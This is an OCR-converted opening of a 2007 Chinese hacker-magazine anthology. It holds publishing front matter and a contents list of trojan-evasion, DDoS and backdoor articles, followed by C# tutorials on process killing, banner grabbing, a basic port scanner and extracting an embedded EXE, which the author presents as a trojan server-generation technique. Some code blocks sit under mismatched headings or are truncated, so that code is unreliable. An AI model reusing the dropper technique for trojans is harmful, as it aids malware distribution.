# 黑客防线2007精华本（上）



- 高危漏洞深层分析
- 木马免杀系列专题
- 黑客编程高级指南
- 系统防护终极策略

《黑客防线》编辑部 编



1. 50个高危系统漏洞底层分析！
2. 150例流行黑客技术实战指南！
3. 200篇黑客入侵事件剖析！
4. 1200MB黑客技术经典操作视频盘点！

人民邮电出版社

POSTS & TELECOM PRESS





# 2007 精华奉献本

上册

《黑客防线》编辑部 编

人民邮电出版社

北京

# 图书在版编目(CIP)数据

《黑客防线》2007精华奉献本/《黑客防线》编辑部编.

北京: 人民邮电出版社, 2007.1

ISBN 978-7-115-15560-3

Ⅰ.黑... Ⅱ.黑... Ⅲ.计算机网络-安全技术

Ⅳ.TP393.08

中国版本图书馆CIP数据核字(2006)第144844号

# 内容提要

《黑客防线2007精华奉献本》是国内最早创刊的网络安全类媒体之一《黑客防线》总第61期到第72期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上、下两册（本册为上册），并附带2张包含1200MB安全技术录像的光盘。收录的文章通俗易懂、图文并茂，在每个关键知识点和细节上还有详细的“小知识”、“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻防、漏洞攻防、黑器攻防等，同时选取国内首创的“溢出研究”栏目中的精品文章，非常适合各层次读者学习！

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

# 黑客防线2007精华奉献本(上册)

- 编: 《黑客防线》编辑部
- 责任编辑: 魏雪萍
- 出版发行: 人民邮电出版社发行 北京市崇文区夕照寺街14号A座(100061)
- 读者热线: 010-62145877
- 印 刷: 中煤涿州制图印刷厂
- 经销: 全国各地新华书店
- 开 本: 782 × 1092 1/16
- 印 张: 36
- 字 数: 3800千字
- 2007年1月第1版 2007年1月北京第第一次印刷
- ISBN 978-7-115-15560-3/TP·5870
- 全套(含上下册)定价: 39.00元(附两张光盘)

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。

联系电话: 010-62141446 E-mail: yougoubu@hacker.com.cn

图文版权所有，未经同意不得转载、翻印。

# 致读者

黑客一词，源于英文Hacker，原指热心于计算机技术、水平高超的电脑专家，尤其是程序设计人员，他们发现系统漏洞和各种程序错误，并设法修补这样的漏洞。从原来的定义来说，黑客无疑是网络中最让人觉得神秘且崇高的人群。但世界上没有绝对好的东西，黑客也是这样。信息高科技时代的到来，给人类各方面发展都带来了前所未有的巨大进步，但同时也带来了前所未有的巨大灾难。黑客这一神秘群体，由于掌握了核心的技术、最有破坏力的漏洞，所以渐渐分离出来两个部分，一部分是为网络安全而奉献精力的真正黑客，而另一部分是在网络上为所欲为，拥有强大破坏力，行踪神秘的Cracker！

我国互联网业界风起云涌，网络从最初的新奇，到如今渗透到人们的日常生活，它改变了传统的信息消费渠道、抢占了新闻受众、影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着无数黑客、Cracker的一次次考验和打击。面对这样的转变，为了向广大网友普及网络安全常识、提高网络水平，《黑客防线》应运而生作为中国最早的网络安全类杂志之一，已经历了多年的风雨。一直以“在攻与防的对立统一中寻求突破”为理念的我们，在普及网络安全的同时，针对网络上黑客攻击、网络漏洞等方面策划出最快、最新、最权威的技术奉献给大家。同时也为“黑客”正名，告诉每个读者什么是真正的黑客，什么是Cracker。

黑客防线成的过程中，通过我们不断推出的攻防实验室，非常多的朋友学习到了很多实用的网络攻击、防御知识，虽然不可避免地存在一些缺陷，但我们一直在积极听大家的意见。这也是《黑客防线》一直倡导的“在攻与防的对立统一中寻求突破”为理念的最终体现。我们的攻防实验室为了深入这一理念而开展活动，希望每个喜欢入侵技术、每个喜欢安全的朋友都能在实验室中学到自己需要的知识。眼下互联网上的攻击事件越来越多，各大网络管理员、系统维护者都在防护而头疼。最后，根据各读者的强烈建议，我们特别精选了200篇攻防文章，收集了200个全程演示的攻防录像，融合在《黑客防线>2007精华奉本》里，以便喜欢黑客的朋友们系统地学习最新的网络技能，做好最强的防护系统。我们再次感谢广大读者的支持，感谢人民邮电出版社的合作，使更多读者了解到黑客技术，并借此提高网络安全的整体。

# 黑客防线2007精华奉献本 目录(上册)

- 写经典小工具........................................1
- 实现自身资源提取................................................4
- 写汉诺游戏................................................5
- 网络执法核心技术(上)............................................8
- 网络执法核心技术(下)..........................................11
- API拦截..............................................................14
- UDP后门的Socket.......................................................16
- IIS守护者................................................................19
- 程序员编写DDOS工具...................................................21
- 盗者的反击..................................................................23
- 嗅器加上数据还原......................................................26
- 循序渐进制作管理器..................................................31
- 藏得更深——线程技术新发展(上).........................35
- 编写网页木马............................................................39
- 病毒专杀工具...................................................40
- Win32汇编木马初探......................................................41
- 藏得更深——线程技术新发展(下).........................44
- JavaScript写外挂................................................................46
- 隐蔽的木马启动方法..........................................................48
- 捆绑任意执行文件做木马..............................................50
- 穿过防火墙的Shell后门....................................................53
- 马技——用`CreateFile`保护木马...................................................55
- 轻松编写端口重定向程序..................................................56
- 系统防护——C#编写IP_MAC欺骗程序...........................................58
- 自写木马服务端..................................................................60
- 为任意插入`SplashScreen`..........................................................61
- C#实现文件加密................................................................63
- 自编后台破解和文件探测程序..........................................64
- 线程注入技术新发展..................................................................66
- 狂刷百度空间访问量..........................................................70
- Message Hook攻与防........................................................72
- 编程打造CmdShell客户端...............................................................76
- POST提交实现ASP网站收信..........................................................79
- 动态链接库的编写与应用..................................................................80
- 将百度空间玩到底 ........................................................ 82
- 百度搜索,你是我的红娘 .................................................................... 86
- VC实现端口复用木马 ........................................................ 88

## 黑器实战训练

- 文件格式想变就变——xxxTOxxx系列工具简介 .................................................... 92
- U盘窃密大曝光 .......................................................................... 95
- 整整QQ盗者 .......................................................................... 96
- 武装FireFox .......................................................................................... 97
- 今年流行SQLShell——巧用MSSQL扩展存储做后门 ................................................ 98
- CIA——追求完美而具现化的木马 ........................................................................ 100
- 改造灰鸽子 .......................................................................................... 105
- 瞬间免杀 .............................................................................................. 107
- 灰鸽子特征码的简单修改 .................................................................... 108
- 小菜也来玩免杀 .......................................................................................... 110
- 病毒活用之意识 ...................................................................................... 111
- VIP会员学习成果 黑防专版鸽子之江民杀 ................................................ 112
- VIP会员学习成果 这里的挂木马 ................................................................ 114
- 打造免杀版MT .......................................................................... 115
- 卡巴复合特征下的免杀 .................................................... 116
- VIP会员学习成果 黑防专版鸽子之卡巴免杀 ................................................ 118
- 实战杀梦西游木马 ........................................................................ 120
- VIP会员学习成果 灰鸽子2006服务端免杀 ........................................ 121
- 异军突起:CNNS远程控制 .................................................................... 122
- VIP会员学习成果 上兴木马 .................................................................... 124
- 掏出KV的“心”——KV2006内存杀毒分离 .................................................... 126
- 黑防鸽子免杀再分析 ...................................................................... 128
- 菜鸟也要自己做永期短信炸弹 .................................................... 130
- 对ASP木马免杀的研究 ........................................................................ 133
- 木马免杀原理详解 ...................................................................... 137
- 为木马披上羊皮——Fake Ninja ............................................................ 140
- VIP会员学习成果 打造无壳版本木马 ................................................ 142
- 长效短信炸弹再度归来 ........................................................................ 143
- 让《百变宣传尾巴》直接生成无壳的服务 ................................................ 144
- VIP会员学习成果 非黑客软件“黑客化”打造永不查杀的FTP后门 ........................ 145
- 让木马在网络中现形 .......................................................................... 148

## 网管之家

- BT流量对校园网络的影响及其对策 ................................................................ 152
- IBSS架构实验 .......................................................................................... 154
- 解决中国博客网BCUP进程问题 ................................................................. 156

# CONTENTS

www.hacker.com.cn


# 《黑客防线》2007 精华奉献本 上册

## 目录

- Firefox插件漫谈（158）
- 恶意邮件如何共享你的硬盘（159）
- 让网上邻居支持SSL/TLS安全传输（161）
- 为IIS找一位“贴身警卫”（163）
- 使用802.1x协议实现局域网安全访问（166）
- 利用三层交换机实现DHCP中继代理（168）
- 揭穿虚拟主机奸商的骗局（170）
- VIP会员学习成果展 轻松玩转系统恢复（172）
- Windows下的安全文件传输（173）
- VIP会员学习成果展 打造一键FTP服务器（175）
- 数字签名在企业VLAN中的实现（176）
- FTP搜索也疯狂（178）
- 利用SDM实现对Cisco系列路由器的可视化管理（180）
- 无线网络攻防（182）
- 快速将动态网站转化为静态网站（184）
- 基于Cisco交换机园区网络的访问控制（185）
- VIP会员学习成果展 一分钟破解万象（187）
- 斩断非法进程的“黑手”（189）
- 终端下的文件传输之道（191）
- 网吧免费新思路——Windows防锁专家（193）
- 未雨绸缪——微点主动防御（194）
- 牧马者，你的马还能跑吗？（196）
- ISA2004的企业VPN部署（198）

### 脚本黑客

- 赛点网络宣传邮箱版2.03脱壳破解经过（204）
- 浅析逆向工程应用——添加菜单（206）
- ESP定律轻松脱壳易组件双壳（209）
- 在Windows XP中的万能断点（211）
- OllyDbg VS SoftICE 用户级程序调试秘笈（214）
- 破解易语言非独立编译程序——实战《飓星电脑侍卫》反调试篇（217）
- VIP会员学习成果展：制作免杀版黑防灰鸽子（219）
- 刺探“外挂制作学习环境”（221）
- 从UltraProtect到ACProtect——反调试技术回顾与透视（224）
- 巧破DLL To Lib（230）
- 软件加密漏洞剖析——兼谈ASProtect脱壳技术（上）（232）
- 软件加密漏洞剖析——兼谈ASProtect脱壳技术（下）（237）
- 挑战“从来都没有人能破解”的冰点（239）
- MD5的Keygenme分析（242）
- 轻松搞定搜索引擎工厂（246）
- 查杀免杀木马（247）
- 软件保护中MD5算法的另类应用（248）

## 用C#写经典小工具

文/图：ngaut

Socket：有几个读者发来消息说想看C#类的文章，这次让大家得偿所愿。用C#做东西感觉还真容易。

适合读者：入侵爱好者，C# 爱好者

前置知识：C# 基础

《黑客防线》杂志上有人提到C#在网络安全方面的问题，于是我赶紧把自己的一些心得写下来与大家分享，很明显，用C#来写木马之类的东东是不现实的。因为存在以下缺点：生成的可执行程序太大，速度慢。当然了，最大的缺点是需要.net运行库。给别人装木马之前还要帮忙装一个.NET Framework，100多兆的运行库肯定让我们先崩溃，呵呵。不过不要伤心，C#用来开发简单的扫描器和系统自身的安全管理以及蜜罐等还是有武之地的。下面我们先从最经典的进程管理开始：

C#提供给我们强大而便捷的`Process`类，使我们的开发更容易、更方便。这对于编写高效、快速的应用程序是非常有帮助的。考虑到很多穷人无力购买昂贵的Microsoft Visual Studio.NET 2003（我们学校机房的Microsoft Visual Studio .NET 2003，当然了是D版的），我费了点时间读了SharpDevelop的文档，并且安装测试了SharpDevelop，这是个免费精致的C#的IDE。

按照标准文档安装不成功或程序启动出错，请运行`SharpDevelop\bin\setup`目录下的`PostInstallTasks.bat`，因为SharpDevelop对中文的支持太差，我用的版本都是乱码，所以有些注释是用英语写的，我英语太差，希望不会引起大家的误解。考虑到一部分人的需要，我写的时候加入了中文注释。另外限于幅关系，不可能详细讲解每个函数的用途，如果大家遇到清楚的地方查阅MSDN。

### 列出所有进程

```csharp
using System;
using System.Diagnostics;

// GetProcesses() Creates a new Process for each resource on the local computer.
class ListProcess
{
    public static void Main()
    {
        Console.WriteLine("Process information:");
        // 取得所有进程保存到allProcess
        Process[] allProcess = Process.GetProcesses();
        // allProcess.Length是总数
        Console.WriteLine("Process count:{0}", allProcess.Length);
    }
}
```

```csharp
// winxp + SharpDevelop_1.0.3.176
// winxp + Microsoft Visual Studio .NET 2003通过
// 输出所有进程
foreach (Process thisProc in allProcess)
{
    string procName = thisProc.ProcessName;// 进程名
    int procID = thisProc.Id; // 进程ID
    Console.WriteLine("Process:{0}, ID:{1}", procName, procID);
    // 暂停程序，相当于语言中的getch()
}
Console.ReadLine();
```


### 杀死进程

杀死进程之前要列出系统进程，代码很简单。程序结果如图所示。

```csharp
// kill specific Process
private void KillProcess(string processName)
{
    Console.WriteLine("Process Count: {0}", allProcess.Length);
    Console.WriteLine();
}
```

运行结果1所示。

图2。

```csharp
// winxp + SharpDevelop_1.0.3.176
// winxp + Microsoft Visual Studio .NET 2003通过
using System;
using System.Diagnostics;

class ManageProcess
{
    // List All Processes
    private void ListAllProcess()
    {
        Console.WriteLine("Process information:");
        Process[] allProcess = Process.GetProcesses();
        foreach (Process thisProc in allProcess)
        {
            string procName = thisProc.ProcessName;
            int processID = thisProc.Id;
            Console.WriteLine("Process: {0}, ID: {1}", procName, processID);
        }
        // 输出总数
    }
}
```

### 取得指定URL的源代码

我知道的方法有两种，下面是第一种，程序结果如图所示。

```csharp
// kill Process
private void KillProcess(string processName)
{
    try
    {
        Process [] thisproc = Process.GetProcessesByName(processName);
        // thisproc.Length: 名字为进程总数
        // 可能是多个进程，如svchost就有4个
        if (thisproc.Length > 0)
        {
            for (int i=0; i<thisproc.Length; i++)
            {
                // 尝试关闭进程并释放资源
                if(thisproc[i].CloseMainWindow())
                {
                    // 强制关闭
                    thisproc[i].Kill();
                }
                Console.WriteLine("process {0} has been killed", processName);
            }
        }
        else
        {
            Console.WriteLine("process {0} not found!", processName);
        }
    }
    catch // 出现异常，表明kill进程失败，提示用户
    {
        Console.WriteLine("kill process {0} failed", processName);
    }
    Console.ReadLine();
}

public static void Main()
{
    ManageProcess process = new ManageProcess();
    process.ListAllProcess(); // 列出所有进程
    Console.Write("Enter the process Name that you want to kill: ");
    string procName = Console.ReadLine();// //取得要杀死的进程名
    process.KillProcess(procName);
}
```


```csharp
// winxp + SharpDevelop_1.0.3.176.
// winxp + Microsoft Visual Studio .NET 2003通过
// DownloadData()函数原型:public byte[] DownloadData(string address);
// 作用: Downloads data from a resource with the specified URL,
using System;
using System.IO;
using System.Net;
using System.Text;

class GetWebSourceCode1
{
    public static void Main()
    {
        string remoteUrl; // 远程URL
        Console.WriteLine("Please input the URL:");
        // 取得URL，注意这里要加上"http://",如果不加上,则必须有用户输入
        remoteUrl = "http://" + Console.ReadLine();
        // 建立一个WebClient实例
        WebClient myWebClient = new WebClient();
        // 下载主页数据
        Console.WriteLine("Downloading " + remoteUrl);
        // Download the Web resource and save it into a data buffer.
        try
        {
            byte[] myDataBuffer = myWebClient.DownloadData(remoteUrl);
            // 输出网页的源代码
            string download = Encoding.ASCII.GetString(myDataBuffer);
            Console.WriteLine(download);
            Console.ReadLine();
        }
        catch // URL解析失败
        {
            Console.WriteLine("sorry, The URL address is invalid!!!");
            Console.ReadLine();
            return;
        }
    }
}
```

## 取得远程Web服务器类型

通过 HTTP 的 `ResponseHeaders` 取得远程 Web 服务器类型，程序运行结果如图 4 所示。

探测结果显示 Google 用的 GWS/2.1，而我们用的 IIS/5.0。

基本原理是通过分析 HTTP Response Headers，取得 HTTP Response Headers 中的 `server` 信息。


# PROGRAMMING ANALYSE

> 栏目编辑 > socket > socket@hacker.com.cn.

```csharp
// 取得远程Web服务器类型
//winxp+SharpDevelop_1.0.3.1768
//winxp+Microsoft Visual Studio.NET 2003测试通过
using System;
using System.Net;
using System.Text;
namespace GetRemoteServerType
{
    class GetRemoteServerType
    {
        public static void Main()
        {
            Console.WriteLine("Please input the URL or Ip address:");
            string remoteUrl = "http://" + Console.ReadLine();
            //Create a new WebClient instance.
            WebClient myWebClient = new WebClient();
            // Download the Web resource and save it into a data buffer.
            try
            {
                byte[] myDataBuffer = myWebClient.DownloadData(remoteUrl);
            }
            catch
            {
                Console.WriteLine("The URL address is invalid or An error occurred while downloading data!");
                Console.ReadLine();    //暂停
                return;
            }
            //建立一个WebHeaderCollection对象
            WebHeaderCollection myWebHeaderCollection = myWebClient.ResponseHeaders;
            Console.WriteLine("\nDisplaying the Server:\n");
            //循环查找
            for (int i=0; i < myWebHeaderCollection.Count; i++)
            {
                //只显示Server类型,若去掉"Server"判断条件则显示更多信息
                if (myWebHeaderCollection.GetKey(i) == "Server")
                {
                    Console.WriteLine("\t" + myWebHeaderCollection.GetKey(i) + " = "
                        + myWebHeaderCollection.Get(i));
                    break;
                }
            }
            Console.ReadLine();
        }
    }
}
```

## 简单的端口扫描

一般的端口扫描的原理其实非常简单，只是简单地利用操作系统提供的 `Connect()` 系统调用，与每一个感兴趣的目标计算机的端口进行连接。如果端口处于 Listen 状态，那么 `Connect()` 就能成功。否则，这个端口不能用，也没有提供服务。这个技术的一个最大的优点是不需要任何权限，系统中的任何用户都有权利使用这个调用。

另一个好处就是速度快，如果对每个目标端口以线性的方式使用单独的 `Connect()` 调用，那么将会花费相当长的时间。可以同时打开多个套接字，从而加速扫描。使用非阻塞 I/O，允许设置一个低的时间用尽周期，同时观察多个套接字。但这种方法的缺点是很容易被发觉，从而被过滤掉，目标计算机的 Logs 文件会显示一连串的连接和连接时出错的服务消息，并且能很快的使它关闭。

有了原理做事就比较容易了，至少方向是对的，程序是使用 C# 提供的 `TcpClient` 类来实现的。

```csharp
//sample port scanner
using System;
using System.Net;
using System.Net.Sockets;
class portScanner
{
    public static void Main()
    {
        Console.WriteLine("Start scanning....");
        int port = 21;
        Console.WriteLine("Please input the URL or IP address:");
        string server = Console.ReadLine();
        try
        {
            // 如果建立tcp 连接成功,表明端口开放
            TcpClient client = new TcpClient(server,port);
            Console.WriteLine("{0} port {1} is Opened!!", server, port);
            client.Close();
        }
        catch (SocketException e)
        {
            Console.WriteLine("{0} port {1} is not Opened!!", server, port);
            // 建立连接不成功,提示不成功的原因
            Console.WriteLine("SocketException : {0}", e);
        }
        Console.Read();
    }
}
```

## 简单的蜜罐

这个也比较简单，因为是简单的蜜罐，所以只显示 Listen 的数据就可以了。这里就不在继续介绍了，留给大家做吧。

PS: 为了这篇文章，花了一个星期的时间，写完的时候觉得自己好累了，文笔不好还请多见谅。

由于我没有自己的电脑，编程和写文章的时间都是蹭来的。其实仔细想想编程真的不是很难，我们这样的菜鸟也可以编程。希望大家在创造自己工具时一路走好。能有更多的朋友提供更好的意见和建议。

黑客防线 www.hacker.com.cn

《黑客防线》2007 精华奉献本 上册

适合读者：C# 程序员，木马爱好者

前置知识：无

## C#: 实现从自身资源提取EXE

文程晨

很多木马都有生成服务端的功能，即从自身的 EXE 文件再生成一个新的 EXE 文件。我在网上翻了翻代码，VB 和 VC++ 有很多方法实现。可一直没有找到 C# 的，可能是 C# 编写木马不实用，因为大多数系统必须先安装微软的 .NET Framework 才能运行 C# 程序。然而笔者认为再过几年以后，随着微软新系统的推出，C# 木马必然会辉煌起来，所以懂得如何自身生成 EXE 文件还是有必要的。

在实现这个功能的同时，我再把 C# 是如何从资源中提取图片和字符串的代码一并写出来。

### 第一步：建立一个资源文件

1. 新建一个控制台应用程序项目，在 `Class1.cs` 开头加上：

```csharp
using System.Drawing;
using System.Drawing.Drawing2D;
using System.Drawing.Imaging;
// 以上部分是调用图片文件所必须添加的。
using System.Resources;
using System.IO;
```

2. 在主函数中加上：

```csharp
// 声明对象,将资源导入MyResources.文件中
System.Resources.ResourceWriter rw = new System.Resources.ResourceWriter(@"MyResources.resources");
// 声明读取一个二进制文件。
```

**小提示：** 这里的文件的字节数可以用鼠标右键查看属性！当然写得更智能一些，让程序自动读字节数。

```csharp
// filename.exe是你读取的文件名。
FileStream fs = File.Open("filename.exe", FileMode.Open);
// 用二进制方式读取文件
BinaryReader br = new BinaryReader(fs);
byte[] bytes = new byte[fs.Length];
br.Read(bytes);
fs.Close();
// 添加到资源
rw.AddResource("Myexe", bytes);
// 载入图片
System.Drawing.Image img = System.Drawing.Image.FromFile("temp.bmp");
rw.AddResource("MyPic", img);
// 声明字符串
string Mystr = "I love China!";
rw.AddResource("MyString", Mystr);
rw.Close();
// 将编译后的程序和filename.exe及temp.jpg放入同一目录运行就可以得到文件：MyResources.resources
```

### 第二步：从资源文件中提取

1. 新建一个 Windows 应用程序，添加一个 `PictureBox` 控件放图片加几个按钮控件。`Form1.cs` 开头加上：

```csharp
using System.Resources;
using System.Reflection;
using System.IO;
```

2. 在主函数中加上：

```csharp
// 通过反射得到资源集
System.Reflection.Assembly asm = Assembly.GetExecutingAssembly();
// 初始化资源对象，注意命名空间为ResourceConsumer
ResourceManager rm = new ResourceManager("ResourceConsumer.MyResources", asm);
```

3. 在相应的按钮控件函数中添加：

```csharp
// 从资源中读取EXE文件并还原
private void button1_Click(object sender, System.EventArgs e)
{
    // 创建EXE文件
    FileStream fs = File.Open("filename.exe", FileMode.Create);
    // 定义文件大小
    byte[] bytes = (byte[])rm.GetObject("Myexe");
    // 二进制方式写入
    BinaryWriter bw = new BinaryWriter(fs);
    bw.Write(bytes);
    fs.Close();
}

// 从资源中提取图片并显示
private void LoadImg_Click(object sender, System.EventArgs e)
{
    pictureBox.Image = (Image)rm.GetObject("MyPic");
}

// 从资源中提取字符串并显示
private void LoadString_Click(object sender, System.EventArgs e)
{
    string str = (string)rm.GetString("MyString");
    MessageBox.Show(str);
}
```

4. 别忘了把编译好的资源文件 `MyResources.resources` 调入（方法->现有项，将文件类型设为 `.*`）。以上代码在 Visual Studio .NET 2003 下调试通过！在这个例子中，实现了如何从资源提取 EXE 文件，并没有加入像木马那样的配置信息，本文仅仅是抛砖引玉！为了大家更好地研究这段代码，我提供了一个简单的源代码，它是实现 ASP 加密的一个程序。此程序会自动在 Windows 临时文件夹生成 `temp.exe`（其实就是 `scenc.exe`），然后调用 `temp.exe` 对 ASP 文件加密操作！呵呵，其实就可以在 `CMD` 下运行的 GUI 程序了。

适合读者：程序员，游戏爱好者

前置知识：C/++基础

## 自己动手写游戏

文袁尉

本来只想做一个动画演示的程序，发给朋友，后来想了想，不如做游戏吧。我把想法告诉了 Socket，他说很好，我就做了这个程序，其实还有很多功能可以完善，但是我觉得挺浪费时间的，也就没加了。

我先说说动画的思路吧，汉诺塔，顾名思义，引用谭浩强爷爷书中的句子：老和尚挪盘子，把 `n` 个盘子按照从小到大的顺序从 `A` 挪到 `C` 上，途中经过 `B`，所以我就先定义 3 个数组 `c[99]`、`d[99]`、`e[99]`，数组中的 99 也就是可以动的盘数的上限，其实设置成 76 是最好的，因为一般的电脑的分辨率都是 1224×768，如果一个盘子的高度为 110，最多能放 76 个盘子。有了数组后，就可以用它来记录盘子的大小和顺序了。然后就是定义一些头文件和一些函数，还有定义一些宏：

```c
#include <graphics.h>
#include <dos.h>
#include <conio.h>
#include <stdio.h>
#include <stdlib.h>
#include <process.h>
#define a xy[0]
#define b xy[1]
#define lt 0x4b00
#define rt 0x4d00
#define et 0x1c0d
char xy[1];
int m,l,g=0,h=0,k=1,l=1,o=0,hh,gg,xx=1,yy,zz,n=1,p=1,w=1,ww=1,pp=1;
```

接下来就可以看程序部分了，首先我们从 `main()` 函数开始看：


```c
main()
{
    char dd;
    int driver,mode;
    initgraph(&driver,"");
    bar(0,0,1024,768);
    closegraph();/*清屏*/
    clrscr();/*光标回到起始点*/
    printf("\n\n\n1.hanoi\n\n\n2.play\n\n\n3.exit\n");/*打印选项*/
    while(1)
    {
        dd=getch();
        if (dd=='1') play();
        else if(dd=='2') print();
        else if(dd=='3') abort();/*判断按键，如果为1则运行play()，如果为2则运行print()，如果为3则退出*/
    }
}
```

接下来先看演示部分，也就是选择“2”，具体代码如下：（此处省略原文中重复且乱码的逻辑描述，根据逻辑还原核心函数结构）

```c
void print()
{
    int driver,mode;
    initgraph(&driver,"");
    bar(0,0,1024,768);
    closegraph();
    clrscr();/*同样是清屏，把光标移到位置*/
    printf("input the number of disks:");
    scanf("%d",&m);
    hanoi(m,'A','B','C');/*调用hanoi函数来计算*/
}

extern void hanoi(int n, char a, char b, char c)
{
    if(n==1)
        move(n,a,b,c);
    else
    {
        hanoi(n-1,a,c,b);
        move(n,a,b,c);
        hanoi(n-1,b,a,c);
    }
}/*通过递归调用hanoi来实现自动步骤*/

void move(int f,char a,char b,char c)
{
    int oo=0;
    // ... 移动逻辑 ...
}
```

这个演示程序原理就是靠不断地刷新`c`、`d`、`e`数组的内容来确定3个底座上碟子的情况。每个碟子的大小等于本身代表它的数字，3个数组记录了所有碟子的位置，但是实际带入`draw`函数的只有最上面的那个碟子的大小，因为每次需要移动的碟子只有一个，只要不断判断3个底座最上面那个碟子就可以完成所有的步骤。

```
bar(100-c[aa]*10,350-(aa+u+1)*10,100+c[aa]*10,360-
(aa+u+1)*10);
bar(300-d[bb]*10,350-(bb+u+1)*10,300+d[bb]*10,360-
(bb+u+1)*10);
bar(500-e[cc]*10,350-(cc+u+1)*10,500+e[cc]*10,360-
(cc+u+1)*10);
```

这段就是画汉诺塔和中间那根柱子的代码。循环碟子的次数加1原本是为了让柱子多个头，方便看，而实现这个的原因就是`bar`函数在左与右相等的时候就会画一条线。画碟子的方法就是通过循环`u+1`次，把`c`、`d`、`e`数组中的每个数值都画出来。

